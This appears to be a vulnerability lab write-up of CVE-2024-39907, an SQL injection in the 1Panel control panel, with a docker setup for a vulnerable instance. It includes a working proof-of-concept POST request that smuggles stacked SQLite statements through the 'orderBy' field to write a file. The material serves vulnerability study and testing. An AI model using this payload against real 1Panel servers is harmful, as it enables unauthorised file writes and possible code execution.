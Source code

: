 # CVE-2024-39907: In-Depth Analysis of SQL Injection Vulnerability in 1Panel Control Panel

CVE-2024-39907 is a critical security vulnerability affecting the 1Panel server management control panel, involving multiple SQL injection points that could lead to remote code execution (RCE). Below is a detailed technical analysis of this vulnerability.

## Vulnerability Overview

CVE-2024-39907 is a collection of multiple SQL injection vulnerabilities present in the 1Panel control panel. These vulnerabilities exist across several interfaces of 1Panel, where insufficient filtering could allow attackers to achieve arbitrary file writes and ultimately remote code execution (RCE)12.

1Panel is a web-based Linux server management control panel that provides a graphical interface for server administration. This vulnerability affects 1Panel v1.10.9-lts and earlier versions, and has been patched in v1.10.12-tls2.

Reference links:

- [nuclei-templates/http/cves/2024/CVE-2024-39907.yaml at main · projectdiscovery/nuclei-templates](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2024/CVE-2024-39907.yaml)
- https://hub.docker.com/r/moelin/1panel

## Vulnerability Environment

Execute the following command to start a vulnerable instance of 1Panel v1.10.10-lts:

```
docker compose up -d
```

- Default port: `10086`
- Default username: `1panel`
- Default password: `1panel_password`
- Default entrance: `entrance`

Then access `http://your-ip:10086/entrance` to see the login page and log in using the default credentials.

## Vulnerability Reproduction

The vulnerability primarily exists in the API interfaces of 1Panel, particularly the `/api/v1/hosts/command/search` endpoint. Attackers can trigger SQL injection by carefully crafting request parameters2.

A typical proof-of-concept (PoC) request is as follows:

```
POST /api/v1/hosts/command/search HTTP/1.1
Host: 192.168.8.128:8877
Accept-Language: zh
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Referer: http://192.168.8.128:8877/aaa
Accept-Encoding: gzip, deflate
Cookie: psession=you-session
Connection: close
Content-Length: 83

{
  "page":1,
  "pageSize":10,
  "groupID":0,
  "orderBy":"3;ATTACH DATABASE '/tmp/randstr.txt' AS test;create TABLE test.exp (data text);create TABLE test.exp (data text);drop table test.exp;",
  "order":"ascending",
  "name":"a"
}
```

This attempts to create a database file to confirm whether the injection is successful.

![image-20250618234105405](https://github.com/vulhub/vulhub/1panel/CVE-2024-39907/1.png)

## Limitations and Considerations

1. **Valid session required**: As shown by the `psession=you-session` cookie, the attacker must first obtain valid authentication credentials.
2. **SQLite-specific syntax**: This PoC uses SQLite-specific commands, indicating that the 1Panel backend uses SQLite database.